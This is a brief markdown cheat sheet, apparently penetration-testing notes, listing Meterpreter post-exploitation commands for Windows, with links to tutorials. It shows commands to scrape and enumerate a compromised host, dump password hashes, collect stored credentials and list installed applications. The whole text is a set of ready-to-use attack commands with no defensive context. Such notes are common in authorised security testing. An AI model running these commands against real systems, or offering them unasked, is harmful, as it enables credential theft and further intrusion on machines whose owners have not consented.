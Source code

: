 ## Meterpreter
https://www.offensive-security.com/metasploit-unleashed/windows-post-gather-modules/

Get passwords
http://www.hackingarticles.in/post-exploitation-remote-windows-password/

* Scraper
```
> run scraper

> run winenum
```

* Hashdump

* Credential collector
```
meterpreter > run post/windows/gather/credentials/credential_collector
```

* Applications
```
meterpreter > run post/windows/gather/enum_applications
```
